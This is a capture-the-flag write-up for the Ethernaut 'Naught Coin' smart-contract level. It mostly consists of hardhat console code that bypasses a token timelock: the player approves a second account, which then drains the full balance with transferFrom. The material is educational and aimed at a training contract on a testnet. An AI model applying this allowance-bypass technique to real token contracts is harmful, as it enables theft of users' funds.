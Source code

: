 # Naught Coins

[Naught Coins](https://ethernaut.openzeppelin.com/level/0x36E92B2751F260D6a4749d7CA58247E7f8198284)

Player cannot transfer his tokens, but he can approve another account to transfer for him.


Contract address: <BR />
``0x8060CEbcc7f456df5e43ca89B0c574fd61c8Bf55``

<BR />

## Live Attack

```BASH
npx hardhat compile
npx hardhat console --network goerli
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

// Connect to Token contract on-chain
TokenFactory = await ethers.getContractFactory("NaughtCoin")
token = await TokenFactory.attach("0x8060CEbcc7f456df5e43ca89B0c574fd61c8Bf55")

(await token.balanceOf(accounts[0].address)).toString()
all = await token.balanceOf(accounts[0].address)

// Allow other account to transfer our tokens
await token.connect(accounts[0]).approve(accounts[1].address, all)

// Give some Goerli to 2nd Account
valueToSend = ethers.utils.parseEther('0.1')
await accounts[0].sendTransaction({to: accounts[1].address, value: valueToSend})

// Transfer out all balance
await token.connect(accounts[1]).transferFrom(accounts[0].address, accounts[1].address, all)
(await token.balanceOf(accounts[0].address)).toString()
(await token.balanceOf(accounts[1].address)).toString()
```